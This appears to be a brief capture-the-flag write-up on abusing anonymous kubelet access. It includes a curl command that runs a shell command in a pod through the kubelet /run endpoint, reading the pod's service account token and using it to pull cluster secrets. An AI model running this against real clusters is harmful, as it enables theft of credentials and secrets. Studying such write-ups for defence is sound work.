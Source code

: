 # Writeup That Day

### Main idea
Can access kubelet anonymously

### How
Exec shell command in one of running pods

### Example
1. Access `secrets` in cluster using `credentials` that available inside pod
2. Using curl will look like this
   ```
   curl -XPOST -k \
   https://foryou.lychnobyte.my.id:10250/run/<namespace>/<pods>/<container> \
   -d 'cmd=curl -s https://foryou.lychnobyte.my.id:16443/api/v1/namespaces/<namespace>/secrets \
              --header "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)" \
              --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt'
   ```
   or you can simply use `kubeletctl`

### Reference
